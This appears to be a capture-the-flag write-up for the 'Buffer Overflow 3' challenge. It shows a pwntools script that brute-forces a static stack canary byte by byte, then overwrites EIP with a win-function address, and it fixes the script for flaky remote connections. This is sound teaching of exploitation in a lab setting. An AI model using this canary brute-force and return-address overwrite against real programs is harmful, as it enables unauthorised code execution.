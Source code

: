 # Buffer Overflow 3

Finally on the last one in the buffer overflow series, lets knock it out! We start by looking at the vuln.c file. We see our usual win function opening the flag file and printing it. The next function is very intresting though, read_canary(). This is opening a file called canary.txt and putting it into a global_canary variable.

![image](https://user-images.githubusercontent.com/6153549/162578632-d144d152-db24-465a-93b6-6c08d7ba7e78.png)

Next we see our vuln() function; this is doing a few new things. we see it copying the global_canary into a canary variable in the function, we're gonna be asked ofrhow many bytes we want to write, then we'll get to put in our input. However, this time if the canary get's overwritten in the stack the program will crash.

![image](https://user-images.githubusercontent.com/6153549/162578928-9ce79bbe-8144-4a7f-89f8-5dd0f415b886.png)

So we got a few things going for us here. First the canary is read from a file, that means it is static and won't be changing on us, second if we guess the canary (which we know is four bytes from the CANARY_SIZE) then we can overflow the stack and put the canary back intact, and lastly - we get to control the length of our input - this means we can guess at the canary one byte at a time instead of trying all combinations.

So first we need to figure out how much we need to write before we hit the canary (which is added at the end of the buffer). Having the C code lets us know the buffer size of the input is set to 64; but lets verify that because why not! Lets go ahead and grab the win function address while we're at it.

![image](https://user-images.githubusercontent.com/6153549/162579061-ced41765-8f4f-46d5-974c-b5daccfc393e.png)

First lets setup a breakpoint. Disassemble the vuln() function and notice the memcpy down at the bottom, this is most likely our stack check because in the vuln.c we see a memcpy used in the if. So lets break right before that.

![image](https://user-images.githubusercontent.com/6153549/162579088-3ee4a47e-de80-4e4f-93f7-3c4cc3ded443.png)

![image](https://user-images.githubusercontent.com/6153549/162579121-af7e2411-954f-4adb-8028-79918110a0f0.png)

Alright, copy our pattern, start the program, and tell it we're going to send it 200 bytes and then paste in our string.

![image](https://user-images.githubusercontent.com/6153549/162579155-1bead173-be7f-4618-8974-6f8f9e446471.png)

We should hit our break point, notice in the stack that our test canary is there in position 0. 

![image](https://user-images.githubusercontent.com/6153549/162579173-c756a27a-fb98-4b9a-a6cf-cbce67376c96.png)

Hit 'n' or 'next' to go to the memcpy statment and see the stack now has our string before the canary. Sweet so we can now see how many bytes this was - 64!

![image](https://user-images.githubusercontent.com/6153549/162579215-e051889e-d9bf-44f2-9e98-f3725dd89457.png)

So now we know how many bytes we need to send to hit the canary. Lets see if we can write a quick loop to find the canary. Lets make our pwntools template per usual and then setup our loop.

```python
#set our win function
win=p32(0x08049336)
#set our buffer
buffer = 64
#set a blank canary value
canary = ''
#we know the canary is four bytes so setup our while loop
while len(canary) < 4:
    #for each item in the rang of ASCII printable characters
    for i in range(32,127):
        #start the program
        p = start()
        #set length to our buffer, plus how long the canary is, plus 1
        length = 64+len(canary)+1
        #send our length number to the first input
        p.sendlineafter("> ", str(length))
        #setup our payload
        payload = "A"*buffer+canary+chr(i)
        #print payload if you'd like to watch it
        #print(payload)
        #send payload tot he input
        p.sendlineafter('> ', payload)
        #print the character we're at if your curious
        #print(chr(i))
        #receive the line returned to see if we broke the canary
        l = p.recvline()
        
        #check if we broke the canary; if we didn't then we guessed the right char and add it to the canary
        if '*** Stack Smashing Detected' not in str(l):
            canary += chr(i)
            log.info('Partial canary: {}'.format(canary))
            break
        #close out the run
        p.close()
#once done print out the canary
log.success('Found canary: {}'.format(canary))
```
![image](https://user-images.githubusercontent.com/6153549/162579238-ad118358-3704-48c4-83d5-1ef2baabec1a.png)

Ok, so now we have the canary. We can now attempt to gain control of EIP, we will send in 64 bytes to get us to the canary, the canary, and then follow that up with a pattern to see if we can find the offset from the canary to EIP overwrite. We say we're sending 268 bytes because 64 + 4 (canary) + 200 byte pattern.

![image](https://user-images.githubusercontent.com/6153549/162579284-2a984a61-a778-4de9-aa5f-efb3ed633920.png)

![image](https://user-images.githubusercontent.com/6153549/162579301-805438c5-aefa-444d-bf71-8eaf05d63f8e.png)

![image](https://user-images.githubusercontent.com/6153549/162579357-79fed78f-4e61-491d-9735-6855fed619a0.png)

![image](https://user-images.githubusercontent.com/6153549/162579419-a2a6963c-51a1-47ca-a0a6-bda956447791.png)

So we see that we've put the canary back onto the stack as it should be! hit `c` to continue execution and see if we overwrite EIP.

![image](https://user-images.githubusercontent.com/6153549/162579467-03269fb0-c46f-44f8-8e07-b9b6d908aed5.png)

![image](https://user-images.githubusercontent.com/6153549/162579471-7c2f52b8-8248-4f35-9e3e-223e638cf95b.png)

We found that the EIP overwrite is 16bytes after the canary. Now just construct our payload and lets send it on!

![image](https://user-images.githubusercontent.com/6153549/162579489-62775ad2-259c-4527-8e9f-fdbf74c9ad08.png)

![image](https://user-images.githubusercontent.com/6153549/162579557-b0bb9856-b60a-4ce6-87e3-1026bcd62089.png)

Sweet; now just send it to the remote server and lets see what happens! Well had some strange issues; after testing sometimes I'd get an EOF for my recvline. I tested this manually and found that sometimes the connection would close with no output which messed up the script.

![image](https://user-images.githubusercontent.com/6153549/162581803-8e43d0a8-e159-4030-9f85-ca05770b690a.png)

![image](https://user-images.githubusercontent.com/6153549/162581889-d49470eb-478e-4716-ba2e-140c16df60f4.png)

So quick change to our verification to treat a blank response the same as a stack smashing response and reverse our check to instead look for Ok which gets printed if the canary is in tact.

```python
        l = p.recvall()
        if(l != ""):
            print(l)
        
            #check if we broke the canary; if we didn't then we guessed the right char and add it to the canary
            if 'Ok' in str(l):
                canary += chr(i)
                log.info('Partial canary: {}'.format(canary))
                break
        #close out the run
        p.close()
```
![image](https://user-images.githubusercontent.com/6153549/162582040-8f5a61ef-06c7-42cb-87b2-974431d457a5.png)
